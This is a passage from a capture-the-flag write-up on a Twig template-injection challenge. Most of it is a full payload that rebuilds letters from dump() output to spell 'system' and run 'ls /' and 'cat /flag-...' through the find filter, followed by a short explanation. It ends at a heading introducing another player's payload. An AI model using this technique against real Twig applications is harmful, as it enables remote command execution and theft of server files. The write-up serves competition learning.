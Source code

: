 My teammate created a script to automatically find all the necessary characters and build the final payload. Thanks to him!

My final payload looks like:

```php
{% set a = dump()|slice(0,1)|lower %}
{% set b = dump()|slice(304,1)|lower %}
{% set c = dump()|slice(330,1)|lower %}
{% set d = dump()|slice(356,1)|lower %}
{% set e = dump()|slice(18,1)|lower %}
{% set f = dump()|slice(263,1)|lower %}
{% set g = dump()|slice(62,1)|lower %}
{% set h = dump()|slice(224,1)|lower %}
{% set i = dump()|slice(60,1)|lower %}
{% set j = dump()|slice(512,1)|lower %}
{% set k = dump()|slice(538,1)|lower %}
{% set l = dump()|slice(71,1)|lower %}
{% set m = dump()|slice(46,1)|lower %}
{% set n = dump()|slice(44,1)|lower %}
{% set o = dump()|slice(261,1)|lower %}
{% set p = dump()|slice(159,1)|lower %}
{% set q = dump()|slice(694,1)|lower %}
{% set r = dump()|slice(1,1)|lower %}
{% set s = dump()|slice(17,1)|lower %}
{% set t = dump()|slice(58,1)|lower %}
{% set u = dump()|slice(16,1)|lower %}
{% set v = dump()|slice(824,1)|lower %}
{% set w = dump()|slice(850,1)|lower %}
{% set x = dump()|slice(876,1)|lower %}
{% set y = dump()|slice(4,1)|lower %}
{% set z = dump()|slice(928,1)|lower %}
{% set space = dump()|slice(9,1) %}
{% set endl = dump()|slice(11,1) %}
{% set hyphen = _charset|slice(3,1) %}
{% set slash = endl|join|nl2br|slice(4,1) %}

{{ {s:l~s~space~slash}|find(s~y~s~t~e~m) }}
{% set flag = c~a~t~space~slash~f~l~a~g~hyphen~e~d~b~f~c~b~c~a~e~f %}
{{ {s:flag}|find(s~y~s~t~e~m) }}
```

First, we create variables for different letters. Then, we also create four more variables for space, hyphen, newline, and slash.

Next, we use mappings and the find function to call any command we want. We first check the filename and then use cat to read the flag.

### Other ways

In hindsight, my method feels a bit overkill. There were some interesting and more efficient payloads by other players. Their solutions were smaller, and some didn’t use dump at all.

**[Jorian's](https://github.com/JorianWoltjer) payload:**
